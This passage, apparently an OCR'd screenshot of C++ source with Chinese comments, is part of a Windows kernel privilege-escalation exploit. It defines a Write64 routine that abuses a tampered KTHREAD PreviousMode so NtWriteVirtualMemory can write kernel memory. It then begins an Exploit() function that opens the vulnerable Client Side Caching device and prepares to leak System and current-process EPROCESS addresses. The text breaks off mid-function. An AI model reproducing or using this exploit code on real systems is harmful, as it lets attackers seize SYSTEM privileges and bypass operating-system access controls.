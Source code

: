 ``````cpp
}

/**
 * @brief 封装函数,实现向任意系统内存地址写入数据
 * 
 * @param Dst 目标地址
 * @param Src 源数据地址
 * @param Size 写入字节数
 * @return NTSTATUS 操作状态
 */
NTSTATUS Write64(_In_ uintptr_t *Dst, _In_ uintptr_t *Src, _In_ size_t Size)
{
    NTSTATUS Status = 0;
    size_t cbNumOfBytesWrite = 0;

    // 关键利用点:利用被修改的PreviousMode,让NtWriteVirtualMemory能够写入内核内存
    // 正常情况下,用户态程序无法向内核内存写入数据
    Status = NtWriteVirtualMemory(GetCurrentProcess(), Dst, Src, Size, &cbNumOfBytesWrite);
    if (!NT_SUCCESS(Status)) 
    {
        return -1;
    }
    return Status;
}

/**
 * @brief 主要漏洞利用函数
 * 
 * @return NTSTATUS 
 */
NTSTATUS Exploit()
{
    UNICODE_STRING  objectName = { 0 };
    OBJECT_ATTRIBUTES objectAttr = { 0 };
    IO_STATUS_BLOCK iosb = { 0 };
    HANDLE handle;
    NTSTATUS status = 0;

    //
    // 初始化需要泄露的内核对象地址
    //
    uintptr_t Sysproc = 0;    // System进程的EPROCESS地址
    uintptr_t Curproc = 0;    // 当前进程的EPROCESS地址
    uintptr_t Curthread = 0;  // 当前线程的KTHREAD地址
    uintptr_t Token = 0;      // 令牌地址(未使用)

    HANDLE hCurproc = 0;      // 当前进程句柄
    HANDLE hThread = 0;       // 当前线程句柄
    uint32_t Ret = 0;         // 返回值
    uint8_t mode = UserMode;  // 用于恢复KTHREAD->PreviousMode的值

    // 初始化指向漏洞驱动路径的Unicode字符串
    // "\Device\Mup\;Csc\.\.\" 指向CSC(Client Side Caching)组件
    RtlInitUnicodeString(&objectName, L"\\Device\\Mup\\;Csc\\.\\."); 
    InitializeObjectAttributes(&objectAttr, &objectName, 0, NULL, NULL);
    
    // 创建连接到易受攻击驱动程序的文件句柄
    status = NtCreateFile(&handle, SYNCHRONIZE, &objectAttr, &iosb, NULL, FILE_ATTRIBUTE_NORMAL, 
                         0, FILE_OPEN_IF, FILE_CREATE_TREE_CONNECTION, NULL, 0);
    if (!NT_SUCCESS(status))
    {
        printf("[-] NtCreateFile failed with status = %x\n", status);
        return status;
``````